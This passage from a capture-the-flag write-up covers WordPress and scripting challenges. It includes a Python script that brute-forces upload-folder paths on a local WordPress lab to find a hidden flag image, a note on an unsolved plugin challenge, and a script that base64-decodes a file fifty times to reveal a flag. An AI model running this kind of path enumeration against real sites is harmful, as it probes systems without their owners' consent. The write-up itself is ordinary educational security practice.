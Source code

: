 Using this script, I Brute-forced the flag from the uploads directory
```python
import requests

base_url = "http://localhost:8687//wp-content/uploads"
headers = {
    "Cookie": "<wp-cookies>"
}

year = 2024
for month in range(0, 13):
    if len(str(month)) == 1: 
        month = "0" + str(month)
    url = f"{base_url}/{year}/{month}/flag_secret_not_so_random_get_me_1337.png"
    resp = requests.get(url, headers=headers)
    print(len(resp.content), url)
    if "Page Not Found" not in resp.text: 
        print("Flag URL:", url)
        break
```
![Alt text](image-20.png)
![Alt text](secret-info.png)


## WP Elevator (in-progress)
`#wordpress` `#code-review`
> Asked my freelance developer friend to write me an authorization plugin so I can share knowledge with selected memebers. He is still working on it but gave me an early version. I don't know how it works but will talk with him once he finishes. 

This is also Wordpress whitebox web Challenge similar to Secret Info. I was able not able to solve this during competition but I want to create writeup. Will be updating once i solve the challenge offline.

# Scripting 
## Base3200 (50 pts)
> You know what to do. 

First thing I did was searched google for some scripts and I instantly found one that solved it. 
https://gist.github.com/intrd/c63db7bd3d0951f0653d6fdf7ea169d6. 

This decodes from base64 the provided file 50 times. can also be done through bash by doing `cat theflag | base64 -d | base64 -d ...` 50 times 
👿
```python3
import base64

pontfile = 'theflag'

with open(pontfile, 'r') as f:
    content = f.read()

for _ in range(50):
    content = base64.b64decode(content)

print(content)
# flag{340ff1bee05244546c91dea53fba7642}
```
